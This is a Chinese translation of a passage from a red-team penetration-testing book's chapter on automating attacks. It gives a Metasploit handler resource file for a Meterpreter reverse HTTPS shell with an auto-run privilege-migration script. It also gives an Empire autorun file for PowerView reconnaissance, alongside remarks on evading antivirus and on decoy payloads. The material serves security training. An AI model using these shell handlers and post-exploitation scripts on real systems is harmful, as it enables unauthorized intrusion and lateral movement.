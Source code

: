 # 第8章 特勤组——破解、漏洞利用和技巧

> 译者：[@Snowming](https://github.com/Snowming04)
> 
> 校对者：[@鶇](http://wp.blkstone.me)、@哈姆太郎、@匿名jack

![](img/chapter_8/8-1.png)

本章重点介绍了一些我个人发现的对红队和渗透测试都有用的不同资源。这些资源可能不会在每个模拟入侵行动中都用到，但对于特定场景或在某一次的案例中可能非常有用。

## 自动化
随着基于[启发式](https://baike.baidu.com/item/%E5%90%AF%E5%8F%91%E5%BC%8F/7365819)（heuristic-based）的端点保护变得越来越完善，我们的攻击需要变得更加迅速。我们通常可以编写恶意软件来躲避杀毒软件和绕过初始检测，但是一旦我们开始在内存中调用 `Mimikatz` 或者进行横向移动到其他主机，我们就会开始触发报警。为了解决这个问题，我总是告诉红队，我们的初步试探可以故意让蓝队捕获。因为通常情况下，蓝队在发现我们使用的默认/基础恶意软件（或者仅仅进行了轻微的混淆）时就会将此视为胜利，但我们的真正目的是了解他们的环境。这是通过我们的初始 payload 在受害者的机器上自动运行多个侦察脚本来实现的。在下一节中，我们将介绍一些可以使我们的一些攻击自动化的快速自动运行脚本。

### 使用 RC 脚本自动化运行 Metasploit
对于 Metasploit，我们可以使用以下方法高效地运行我们的后渗透利用脚本：
* 搜索 Metasploit 中所有的后渗透利用模块：
* msfconsole
* show post

从显示的结果中，选择你想要包含的所有模块，以便在接收到一个 Meterpreter Shell 时自动执行。在这个案例中，我们将为我们的攻击添加一个 [privilege	migrate](http://bit.ly/2vn1wFB) 后渗透模块。要配置 Meterpreter Shell 以便让它在受攻击主机的初始连接上运行此 payload，我们需要指定一个 `AutoRunScript` 参数。你可以根据需要添加尽可能多的 `AutoRunScripts` 参数来转储（dump）有关系统和网络的信息，然后横向移动,甚至更多！

创建处理程序 (Handler) 和 AutoRunScript：
* 创建处理程序文件
    * gedit handler.rc
* 配置处理程序和自动运行脚本
    * use multi/handler
    * set payload windows/meterpreter/reverse_https 
    * set LHOST 10.100.100.9
    * set LPORT 443
    * **set AutoRunScript post/windows/manage/priv_migrate**
    * set ExitOnSession false
    * set EnableStageEncoding true 
    * exploit -j
* 启动处理程序
    * msfconsole -r handler.rc

### 自动化运行 Empire
Empire 具有与 Metasploit 资源文件类似的功能，可以自动完成许多重复性任务。首先，我们需要创建一个文件（在我们的示例中，我们将创建一个名为  /opt/empire_autoload.rc 的文件）然后在我们的 Empire 实例中加载它。

* 在一个单独的终端窗口中，创建一个处理程序文件：
```
gedit /opt/empire_autoload.rc
```
* 添加所有你想要执行的后渗透模块：
```
usemodule situational_awareness/network/powerview/get_user 
execute
back 
usermodule situational_awareness/network/powerview/get_computer 
execute
back
```
* 在 Empire 中，加载 autoload.rc 资源文件：
```
agents
autorun /opt/empire_autoload.rc powershell 
autorun show
```
